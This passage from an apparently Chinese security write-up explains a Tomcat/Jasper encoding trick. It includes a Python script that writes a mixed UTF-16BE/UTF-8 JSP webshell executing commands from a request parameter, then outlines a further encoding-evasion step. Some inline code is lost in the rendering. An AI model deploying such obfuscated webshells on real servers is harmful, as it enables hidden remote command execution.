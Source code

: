                 }  
      
               xxxx  
        }

因此从这里我们可以看出`或`<%@`并没有要求在某个具体的位置，因此它可以在最前面，可以在中间甚至可以在最后面

这里我们可以验证下，这里我们把它藏在了一个变量当中

![]()10.png

测试demo

    
    
    a0 = '''<%  
        Process p = Runtime.getRuntime().exec(request.getParameter("y4tacker"));  
        java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));  
        String line = "'''  
    a1 = '''<%@ page pageEncoding="UTF-16BE"%>'''  
    a2 = '''";  
        while ((line = input.readLine()) != null) {  
            out.write(line+"\\n");  
        }  
    %>'''  
    with open("test2.jsp","wb") as f:  
        f.write(a0.encode("utf-16be"))  
        f.write(a1.encode("utf-8"))  
        f.write(a2.encode("utf-16be"))

成功利用

![]()11.png

#### 三重编码

在上面的基础上我们还可以进一步利用，为什么呢？我们知道它在识别标签`或`<%@`的过程中是调用了`jspReader.xxx`去实现的，而这个`jspReader`来源于前面的调用

    
    
    JspReader jspReader = null;  
    try {  
      jspReader = new JspReader(ctxt, absFileName, sourceEnc, jar, err);  
    } catch (FileNotFoundException ex) {  
      throw new JasperException(ex);  
    }

聪明的你一定能看出这里的`sourceEnc`是我们可以控制的(前面讲过了忘了往上翻复习下)

因此我们对整个利用梳理一下

  1. 1. 保证无法通过BOM识别出文本内容编码(保证isBomPresent为false)

  2. 2. 通过`可以控制`sourceEnc`的值

  3. 3. 将标签`或`<%@`放置在全文任意位置但不影响代码解析

  4. 4. 通过标签`或`<%@`的`pageEncoding`属性再次更改文本内容编码
